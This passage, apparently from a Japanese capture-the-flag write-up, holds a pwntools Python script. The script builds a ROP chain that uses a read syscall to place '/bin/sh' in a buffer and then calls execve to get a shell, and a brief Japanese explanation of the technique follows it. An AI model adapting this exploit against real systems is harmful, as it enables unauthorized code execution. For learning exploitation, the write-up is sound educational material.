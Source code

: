 ```python
        p = process(elf.path)
    return p

pop_rdi =  0x0000000000401d6c
pop_rsi = 0x000000000040566b
pop_rdx = 0x0000000000401139
ret = 0x0000000000401002
mov_eax_edi = 0x00000000004049e0
syscall = 0x0000000000404b51
mov_rsi_rdx_syscall = 0x0000000000404b4e

shell_buf = 0x40f500

    
p = conn()

payload = b'a'*0x8
payload += pack(pop_rdi)
payload += pack(0)
payload += pack(pop_rsi)
payload += pack(shell_buf)
payload += pack(pop_rdx)
payload += pack(0x3b)
payload += pack(mov_eax_edi)
payload += pack(syscall)
payload += pack(pop_rdi)
payload += pack(shell_buf)
payload += pack(pop_rdx)
payload += pack(0)
payload += pack(mov_rsi_rdx_syscall)
assert len(payload) <= 0x7f , "Payload too long"

p.sendlineafter(b'target to shoot: ', b'-2')

# gdb.attach(p, gdbscript=gdb_script)
# time.sleep(1)

p.sendlineafter(b'> ', payload)
time.sleep(1)
p.sendline(b'/bin/sh\x00'+b'\x00'*(0x3a-8))


p.interactive()
```

`syscall 0`で`read`を呼出し、`0x40f500`バッファに`/bin/sh\x00`を書き込み、`read`の入力バイト数が`rax`に返るので残りを`0x3b`バイトになるように調整。
最後に`syscall 0x3b`で`execve`を呼び出すことでシェルを取得できました。
